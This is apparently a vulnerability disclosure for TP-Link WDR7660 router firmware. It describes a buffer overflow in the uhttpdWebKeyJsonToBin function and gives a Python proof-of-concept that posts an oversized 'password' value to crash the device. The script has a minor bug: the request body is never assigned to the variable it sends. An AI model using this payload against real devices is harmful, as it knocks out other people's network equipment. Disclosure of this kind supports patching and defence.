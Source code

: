 Submittion Date: 2025.4.18  
Vendor: WDR7660  
Firmware: wdr7660gv1-cn-up_2019-08-30_10.37.02 (Version 1.0)  
Download Link: https://service.tp-link.com.cn/detail_download_7989.html

The function uhttpdWebKeyJsonToBin handles the important parameter string 'password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-1.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
{"uhttpd":{"webPwd":{"password":"a"*0x2000,"fac_password":"a"}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.
![image](image/tplink-1.png)
